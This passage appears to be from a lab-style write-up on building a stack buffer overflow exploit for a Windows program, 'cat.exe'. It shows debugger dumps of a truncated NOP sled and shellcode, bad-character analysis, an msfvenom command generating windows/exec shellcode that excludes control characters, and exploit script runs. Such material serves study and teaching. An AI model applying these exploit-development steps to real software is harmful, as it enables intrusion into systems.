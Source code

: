 ### .. Result 1

 * A breakpoint on `0x40109C`, after the call to the read function that overwrites the stack,
   reveals that the payload was not completely written to the stack. 
```
00401097  |. E8 04020000    CALL cat.004012A0
0040109C  |. 50             PUSH EAX
```

 * It starts with the nop sled `90909090` but ends 22 bytes further on `FCED`,
   which should be `EDFC` in the payload.
```
0019FD6C   90909090
0019FD70   74D9C6DD
0019FD74   BBBEF424
0019FD78   5DB2EC27
0019FD7C   34B1C929
0019FD80   83187531
0019FD84   0000FCED
0019FD88   00000000
```
   
 * Looking to the payload there is a control char (value < 32) on which the read
   function breaks.
`ddc6d97424f4bebb27ecb25d29c9b13431751883`**`edfc`**___`03`___`75afc5194e278be ...`

### .. Conclusion 1

 * The payload can not contain null chars and control chars.

---
### .. Test 2

 * Generate payload, avoid all control chars.
```
root@kali:~# msfvenom --payload windows/exec --platform windows --arch x86 -b '\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0A\x0B\x0C\x0D\x0E\x0F\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1A\x1B\x1C\x1D\x1E\x1F' -f hex CMD=\\windows\\notepad.exe 2>/dev/null
89e6d9cad976f45f5759494949494949494 ...... 3516244546e50655348453545504141r
```

 * Test
```
> exploit.py payload.dat [exploit.dat]
> ImmunityDebugger.exe cat.exe exploit.dat
```

### .. Result 2

 * A breakpoint on the same position shows that the address `0x19FB6A` is written to the stack.
```
0019FE54   41415045  EPAA
0019FE58   0019FB6A  jû.
0019FE5C   02623F40  @?b
```
